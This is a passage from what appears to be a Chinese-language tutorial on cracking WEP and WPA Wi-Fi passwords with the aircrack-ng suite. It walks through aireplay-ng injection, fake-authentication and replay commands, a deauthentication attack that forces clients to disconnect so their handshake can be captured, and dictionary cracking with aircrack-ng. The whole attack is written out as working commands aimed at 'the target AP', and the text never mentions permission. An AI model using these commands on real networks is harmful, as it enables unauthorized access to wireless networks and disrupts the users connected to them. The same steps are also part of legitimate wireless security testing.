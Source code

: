     如果你攻击的是使用WEP加密方式的AP,可以进行如下攻击：

    进行注入测试

    <pre>`aireplay-ng -9 -a 目标MAC地址  mon0
    `</pre>

    1）断开一个已知已经连接AP的客户端，使其重新发送认证数据包IVs

    <pre>`aireplay-ng -1 0 -a 目标MAC地址 -h 客户端MAC mon0
    `</pre>

    从AP获取包含伪随机码生成算法的数据包，数据包只包含少量的密钥，但可用于组合成各种注入包

    <pre>`aireplay-ng -5 -b 目标MAC地址 -h 客户端MAC mon0
    `</pre>

    2）如果你在airodump-ng命令后没有看到连接到AP的客户端，可使用下面的命令攻击

    <pre>`aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b 目标MAC地址 -h 本机MAC地址 mon0
    `</pre>

    在使用上述命令后，在前一个终端中，接收到的数据包(#Data列)将会迅速增长，增长到大约1万时就可以进行WEP的破解了。

    ##### 4.3.2 在WAP场景下

    如果你攻击的是使用WAP加密方式的AP，可以进行如下攻击：

    向AP发送取消认证的数据包，使一个或多个客户端与AP断开，迫使其发送握手包进行重新链接

    <pre>`aireplay-ng -0 10 -a 目标MAC地址 -c 客户端MAC地址 MAC mon0
    `</pre>

    在使用上述命令后，在前一个终端中，#Data列数据将会增长，直到终端中显示如下描述时就可以进行WAP的破解了。

    <pre>`WPA handshake: 00:14:6C:7E:40:80
    `</pre>
    > PS：更多攻击方式的使用示例请看这里吧：http://www.aircrack-ng.org/doku.php?id=aireplay-ng

    #### 4.4 破解数据包(aircrack-ng)

    打开第三个终端，开始破解：

    <pre>`aircrack-ng -w password.lst -b 目标MAC地址 output*.cap

-w 指定使用的字典文件

> PS：WEP加密方式再复杂的密码在5分钟内就可以破解出来，而WAP加密方式就要看字典文件、密码复杂度以及运气和人品了。

### 5\. 参考：

1.aireplay-ng的九种攻击方式：[http://jim19770812.blogspot.com/2012/05/aircrack-ng.html](http://jim19770812.blogspot.com/2012/05/aircrack-ng.html)

2.各种破解教程：[http://www.aircrack-ng.org/doku.php?id=tutorial](http://www.aircrack-ng.org/doku.php?id=tutorial)

3.Ubuntu支持无线网卡驱动信息：[https://help.ubuntu.com/community/WifiDocs/Driver](https://help.ubuntu.com/community/WifiDocs/Driver)